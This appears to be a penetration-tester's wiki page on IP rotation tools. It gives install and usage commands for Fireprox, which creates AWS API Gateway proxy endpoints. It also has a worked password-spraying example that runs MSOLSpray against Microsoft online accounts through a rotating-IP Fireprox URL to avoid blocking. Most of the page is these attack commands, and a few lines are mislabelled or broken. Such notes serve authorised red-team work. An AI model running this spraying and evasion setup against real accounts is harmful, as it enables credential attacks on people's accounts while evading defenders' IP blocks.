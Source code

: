 # IP rotation Tools

## IP rotation Tools

## Fireprox

Note: change the region if you get blocked

### Install

```csharp
git clone https://github.com/ustayready/fireprox
cd fireprox virtualenv -p python3 . 
source bin/activate 
pip install -r requirements.txt 
```

### Usage

* Create the remote endpoint

```csharp
python fire.py --access_key <AWS_KEY> --secret_access_key <AWS_SECRET> --region <REGION> --url <TARGET SITE> --command create
```

### Destroy 

* Once finished, delete the endpoint

```csharp
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region --a
pi_id <API ID>  --command destroy
```

### Password Spraying example

* Create an endpoint using fireprox

![](../../.gitbook/assets/image%20%2881%29.png)

* Create an user list

![](../../.gitbook/assets/image%20%28295%29.png)

* Load MSOLSpray module and execute it using the userlist, a password and the proxy url :

```text
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password WrongPass123 -URL https://llm9mzll40.execute-api.eu-west-1.amazonaws.com/fireprox/
```

![](../../.gitbook/assets/image%20%28308%29.png)

* cleanup ****

```csharp
python fire.py --access_key $AWS --secret_access_key $KEY --region eu-west-1 --api_id  llm9mzll40 --command destroy
```

### resources

{% embed url="https://github.com/ustayready/fireprox" %}

## ProxyCannon-NG

{% embed url="https://github.com/proxycannon/proxycannon-ng" %}

